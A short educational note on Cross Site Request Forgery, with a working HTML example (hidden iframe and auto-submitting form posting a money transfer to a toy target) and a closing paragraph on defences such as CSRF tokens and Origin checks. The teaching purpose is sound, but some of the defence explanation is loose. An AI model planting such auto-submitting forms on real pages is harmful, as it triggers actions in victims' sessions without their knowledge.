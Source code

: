# CSRF Attacks

Cross Site Request Forgery attacks make use of credentials saved in your current browing session that were not protected from being read by a malicious website. The example below would allow submitting an action entirely without a user's input or awareness on the web page because all the elements are hidden and the form is submitted automatically.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://pokemon.com/transfer.php' target="csrf-frame" id\
="csrf-form">
<input type='hidden' name='from' value='Ash'>
<input type='hidden' name='to' value='Brock'>
<input type='hidden' name='amount' value='156'>
<input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Sites can attempt to defend against CSRF with a valid CSRF Token that must be included in the request. CORS Cross Origin Resource Sharing is a browser dependent security feature that restricts requests made to specific domain unless allowed. Validating Origin request headers are another way to filter out bad requests. 